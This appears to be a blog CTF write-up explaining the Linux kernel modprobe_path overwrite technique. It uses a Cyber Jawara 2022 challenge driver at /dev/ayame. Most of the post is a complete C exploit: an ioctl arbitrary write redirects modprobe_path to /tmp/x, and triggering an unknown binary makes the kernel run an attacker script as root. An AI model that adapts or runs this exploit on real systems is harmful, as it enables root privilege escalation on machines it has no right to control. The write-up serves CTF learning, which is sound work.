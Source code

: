 ```yaml
---
layout: post
title:  "Modprobe overwrite"
date:   2023-01-06
categories: ctf kernelexploit
description: modprobe overwrite - kernel exploitation 
tags: tip-binary ctf
---
```


# What is modprobe?

modprobe intelligently adds or removes a module from the Linux kernel: note that for convenience, there is no difference between _ and - in module names. modprobe looks in the module directory /lib/modules/'uname -r' for all the modules and other files, except for the optional /etc/modprobe.conf configuration file and /etc/modprobe.d directory (see modprobe.conf(5)). modprobe will also use module options specified on the kernel command line in the form of `<module>.<option>`.
src: https://linux.die.net/man/8/modprobe

modprobe can be use to add or remove loadable kernel module to the linux kernel. modprobe is installed on`/sbin/modprobe` or you can check by yourself `cat /proc/sys/kernel/modprobe`. 

# Modprobe overwrite

Since the path of modprobe is stored under the symbol `modprobe_path` in the kernel and in a writeable page, we can get the address by reading `/proc/kallsyms`, after that we can overwrite the address of `modprobe_path` with malicious path which pointed to other file in this case `evil.sh`. Then `evil.sh` will be executed when we execute unkown file type on the system. 

# Exploitation

in this post I will use a CTF challenge from Cyber Jawar Final 2022 called `Nakiri Ayame`, since the challenge require a kernel leak and this can be achieved by leaking the kernel via stacktrace or bruteforce the address I disabled the kaslr to make it easier :v (tawa penuh ke noob-an). Since we have arbitrary address write (AAW) primitive and address of the modprobe_path symbol, We can overwrite `modprobe_path` to malicious shellscript/binary so the binary/shellscript will executed as root

the kernel module will be installed at "/dev/ayame". we can interact with the kernel module with `ioctl()` and value `0x1337`.

<img src="/images/finalcj2022/1.png">

Our goal is to read the flag at `/root/flag` to do that we need to escalate from user to root. Firstly we can open the vuln kernel module 

{% highlight C %}
char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}
{% endhighlight %}

then we need to get the address of `modprobe_path` symbol, we can use this command to read the address since I disabled the kaslr protection :v 

    ffffffff82445b60 D modprobe_path

Now we can reverse `/tmp/x` and encoded the string as hex, this string will overwrite the modprobe_path value from `/sbin/modprobe` to `/tmp/x`. We overwrite the modprobe_path using arbitrary address write (AAW) primitive to our evil string. 

{% highlight C %}
void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}
{% endhighlight %}

Then we can trigger the bug so kernel will execute our `modprobe_path` with root user. This can be achived by create a shellscritpt/binary at `/tmp/x` since our goal to read `/root/flag` we can create a shellscript to copy the flag to /tmp and make it readable. Then we create unknown file type signature so the system will invoke `modprobe`.

{% highlight C %}
void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}
{% endhighlight %}
 

Full exploit:

{% highlight C %}
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

int64_t buf[0x400];
int64_t buf2[0x400];
int fd;

char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}

// ffffc90000147ec0
void get_crash(void){
    // int64_t buf[0x400];
    buf2[0] = 0xdeadbeef;
    buf2[1] = &buf;
    buf2[2] = 0x41414141;
    
    for (int i = 0; i < 0x80; ++i){
        buf[i] = 0x4242424242424242;
    }

    ioctl(fd, 0x1337, &buf);
    // return 0;
}

void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}

void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}


void main(void){
    open_dev_vuln();
    overwrite_modprobe();
    trigger_modprobe();
}

{% endhighlight %}


run the exploit and we get our `/root/flag` flag

<img src="/images/finalcj2022/2.png"/>

I don't cover how to send our exploit to the server since the challenge server already died. You can learn more how to send the exploit from <a href="https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/">here</a> kudos to the challenge author.

other useful resource:
<ul>
    <li>
        <a href="https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/"> lkmidas </a>
    </li>
    <li>
        <a href="https://sam4k.com/like-techniques-modprobe_path/"> sam4k </a>
    </li>
</ul>